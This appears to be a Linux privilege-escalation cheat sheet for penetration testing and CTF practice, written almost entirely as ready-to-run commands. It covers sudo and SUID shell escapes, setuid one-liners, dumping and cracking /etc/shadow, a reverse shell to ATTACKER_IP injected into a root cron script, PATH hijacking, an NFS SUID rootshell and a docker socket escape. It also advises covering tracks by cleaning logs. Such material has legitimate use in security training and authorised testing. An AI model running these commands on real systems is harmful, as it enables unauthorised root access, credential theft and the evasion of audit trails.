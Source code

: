 ##  Linux Privilege Escalation Cheat Sheet

### 🗝️ Introduction

## 1️⃣ System Enumeration

🔍 **Baseline Checks**

```bash
hostname               # Hostname
uname -a               # Kernel & architecture
cat /proc/version      # Kernel build
cat /etc/issue         # OS info
```

🔍 **User & Env**

```bash
id                     # User & groups
env                    # Env variables
history                # Command history
```

🔍 **Network**

```bash
ip a / ifconfig        # Interfaces
ip route / netstat -rn # Routes
ss -tulpan             # Open ports/services
```

🔍 **Permissions & Special Bits**

```bash
 # SUID
getcap -r / 2>/dev/null                     # Capabilities
```

🔍 **Scheduled Jobs**

```bash
cat /etc/crontab
ls -la /etc/cron.*/*
crontab -l
```

🔍 **Writable Places**

```bash
find / -writable -type d 2>/dev/null
```

---

## 2️⃣ Automated Enumeration

Use to speed up, **never trust blindly** — validate by hand:
```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 3️⃣ Kernel Exploits

1. `uname -r` — get version
2. Search **CVE**, **searchsploit**, **Exploit-DB**
    ```bash
    searchsploit Linux Kernel <version>
    ```
3. Transfer exploit: `wget`, `scp`, `python3 -m http.server`
4. Compile & run:
    ```bash
    gcc exploit.c -o exploit && ./exploit
    ```
5. `whoami` → verify root

⚠️ **Danger:** Kernel exploits can crash a box — use only when safe.

---

## 4️⃣ Sudo Abuse

🔍 **List allowed commands:**

```bash
sudo -l
```

🔑 **GTFOBins Tricks**

- `find`:    
    ```bash
    sudo find . -exec /bin/sh \\; -quit
    ```
- `vim`:
    ```bash
    sudo vim -c ':!sh'
    ```
- `less`, `nano`: similar `:!bash` or `^R^X` tricks.

Always check [GTFOBins](https://gtfobins.github.io/).

---

## 5️⃣ SUID Binary Abuse

```bash
find / -perm -4000 -type f 2>/dev/null
```

Check unusual SUID binaries (`nmap`, `vim`, `find`):

```bash
nmap --interactive
!sh
```

Or dump shadow:

```bash
/usr/bin/base64 /etc/shadow > /tmp/shadow.b64
base64 -d /tmp/shadow.b64 > /tmp/shadow.txt

unshadow /etc/passwd /tmp/shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 6️⃣ File Capabilities

Show files with capabilities:

```bash
getcap -r / 2>/dev/null
```

If `cap_setuid`:

```bash
python3 -c 'import os; os.setuid(0); os.system(\"/bin/sh\")'
```

Or use `perl` GTFOBin:

```bash
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec \"/bin/sh\";'
```

---

## 7️⃣ Cron Job Abuse

Find writable cron scripts:

```bash
grep -R \"root\" /etc/cron* 2>/dev/null
```

If writable:

```bash
echo \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\" >> /root/cronjob.sh
nc -lvnp 4444
```

---

## 8️⃣ PATH Hijacking

If a root process calls a binary using relative PATH:

```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

When root runs `ls` → you get root shell.

---

## 9️⃣ NFS `no_root_squash`

Check `/etc/exports`:

```bash
cat /etc/exports
```

If `no_root_squash` → mount:

```bash
mount -o rw ATTACKER_IP:/share /mnt
echo -e '#!/bin/bash\\n/bin/bash' > /mnt/rootshell
chmod +x /mnt/rootshell
chown root:root /mnt/rootshell
chmod 4755 /mnt/rootshell
```

Run on target:

```bash
./rootshell
```

---

## 🔟 Other Useful Vectors

✅ **Sticky Bit Misconfigs:**  
Check `/tmp`:

```bash
ls -ld /tmp
# Should be drwxrwxrwt
```

If `t` is missing, any user can delete others’ files.

✅ **Weak SSH Keys:**

```bash
find / -name id_rsa 2>/dev/null
```

Try recovered private keys with:

```bash
ssh -i id_rsa user@host
```

✅ **Docker Socket:**

```bash
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ **Kubernetes:**  
Check `/var/run/secrets/kubernetes.io/`.

✅ **Misconfigured Kernel Modules:**  
Look for `insmod` or custom modules with write access.

---

## ✔️ Key Takeaways

1️⃣ **Enum like crazy** — every privesc starts there.  
2️⃣ **Cross-check auto tools** by hand.  
3️⃣ **Use least-destructive first** (sudo, SUID, cron > kernel exploit).  
4️⃣ **Cover your tracks** — clean dropped files/logs.  
5️⃣ **Document everything** for your report.  
6️⃣ **Train constantly** — practice on THM, VulnHub, HackTheBox.

---

